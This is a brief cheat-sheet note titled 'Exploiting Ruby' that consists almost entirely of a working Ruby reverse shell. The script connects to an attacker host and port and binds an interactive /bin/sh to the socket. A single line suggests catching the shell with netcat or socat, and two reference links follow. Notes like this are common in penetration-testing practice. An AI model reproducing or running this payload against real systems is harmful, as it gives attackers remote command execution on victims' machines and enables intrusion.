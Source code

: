 # Exploiting Ruby

author:: Nathan Acks  
date:: 2022-07-11

## A Simple Reverse Shell

```ruby
require "socket"

attacker_ip = "10.0.0.1"
attacker_port = 1234

f = TCPSocket.open(attacker_ip, attacker_port).to_i

exec sprintf("/bin/sh -i <&%d >&%d 2>&%d", f, f, f)
```

Catch it with netcat or socat.

## References

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
* [Ruby - Socket Programming](https://www.tutorialspoint.com/ruby/ruby_socket_programming.htm)
